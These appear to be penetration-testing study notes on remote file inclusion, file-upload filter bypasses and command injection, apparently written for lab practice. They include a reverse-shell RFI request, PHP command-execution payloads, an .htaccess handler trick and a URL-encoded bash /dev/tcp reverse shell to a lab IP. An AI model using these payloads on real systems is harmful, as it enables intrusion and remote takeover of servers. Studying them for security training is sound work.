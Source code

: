 ### Remote File Inclusion (RFI)
- In PHP `allow_url_include` must be configured for RFI to work, just like the `data://` filter in LFI
- Allows us to include file from a remote location using `HTTP` or `SMB`
```zsh
curl http://offsec.com/index.php?page=http://192.168.48.240/revshell.php
```
> [!IMPORTANT]
> If a revershell does not work, try simpler payloads like `<?php system("whoami");?>` or `<?php phpinfo();?>` to confirm command execution via RFI

# File Uploads
### Executable Files
- If we have a filter that prevents us from uploading certain files we can try to bypass it
	- Change to an uncommon file extension (e.g `.php` to `php7` or `phps` )
	- Change casing (e.g `.php` to `.pHP`)
- Check [HackTricks](https://book.hacktricks.wiki/en/pentesting-web/file-upload/index.html#bypass-file-extensions-checks) for usefull extensions and bypass tricks
- It is also worth checking if we can rename files. So we could upload our payload as `.txt` (or whatever is allowed) and then rename it 
- If we are able to upload a `.htaccess` we might be able to add a new PHP file type or even execute code as shown on [Hacktricks](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/php-tricks-esp/index.html#code-execution)
```zsh
echo "AddType application/x-httpd-php .alexa" > .htaccess
```
### Unexecutable Files
- Always try to upload the same file twice. Depending on the response we might be able to enumerate the web framework or enumerate files that were already uploaded
- If files get overwritten, check for path traversal vulnerabilities. This way we could overwrite file in order to get access (e.g by overwriting `authorized_keys`)
# Command Injection
- Check if we can change the command that is being ran (e.g `whoami` instead of `git clone`)
- Check if we are confined within a specific command (e.g `git` or `git version` instead of `git clone`) 
- Check if used command can be escaped (e.g using `"` or `'`). Be sure to URL encode accordingly like the below payload `username=&password=&ffa=test"&&bash -c 'bash -i >& /dev/tcp/192.168.45.234/9001 0>&1'"`
```zsh
curl -X POST --data 'username=&password=&ffa=test%22%26%26bash+-c+%27bash+-i+%3E%26+%2Fdev%2Ftcp%2F192.168.45.234%2F9001+0%3E%261%27%22' http://192.168.231.16/login
```
- Check if we can chain commands (e.g `git clone;whoami` instead of `git clone`)
	- `;` can be used in a majority of command lines. In `cmd` an alternative is using `&&`
	- Be wary of encoding (e.g `git clone%3Bwhoami` instead of `git clone;whoami`)

## Windows
- To check if the command gets executed using `cmd` or `powershell` we can use
```zsh
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```
